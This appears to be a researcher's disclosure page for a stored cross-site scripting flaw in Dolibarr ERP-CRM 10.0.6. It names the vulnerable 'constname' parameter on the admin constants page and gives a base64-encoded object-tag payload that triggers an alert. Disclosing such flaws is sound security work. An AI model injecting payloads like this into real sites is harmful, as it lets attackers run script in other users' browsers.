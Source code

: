 ```yaml
---
title: 0day's
layout: page
permalink: /0days
---
```


# Dolibarr - Stored XSS [constname parameter]
# Version : 10.0.6
# Date: 17.01.2020
# Vendor : [https://www.dolibarr.org/](https://www.dolibarr.org/)
# CVE : N/A

Description: In this version of the Dolibarr ERP - CRM program is allows Stored XSS by placing a payload in the "constname" parameter field in other setup page.

# Url : http://localhost/htdocs/admin/const.php
# Parameter : constname
# Payload : \<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>\</object>

![Payload](payload.png)
